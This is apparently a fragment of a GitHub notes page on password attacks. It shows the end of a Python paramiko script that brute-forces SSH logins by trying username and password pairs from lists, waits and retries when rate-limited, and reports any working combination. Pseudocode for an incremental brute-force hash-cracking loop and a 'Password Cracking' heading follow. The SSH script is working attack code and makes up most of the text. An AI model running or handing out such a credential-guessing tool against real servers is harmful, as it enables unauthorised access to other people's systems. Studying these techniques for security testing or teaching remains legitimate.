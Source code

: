 ```python
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo: HOSTNAME: {hostname} | USERNAME: {username} | PASSWORD: {password}{RESET}")
        return True

try:
        for user_id in range(len(user_list)):
                is_ssh_open(host, user_list[user_id].replace("\n",""), pass_list[user_id].replace("\n", ""))
except KeyboardInterrupt:
        exit()

```

### Basic Bruteforce Algorithm


```
# ALGORITHM [Bruteforce]

password_found = false
password_length = 1

while password_found == false
do 
	while can_create_password_of_length(password_length)
	do
		password = create_password_of_length(password_length)
		if (hash(password) match attacked_hash)
		then
			password_found = true
	done
	password_length = password_length +1
done

```


# <b><u>Password Cracking</u></b>
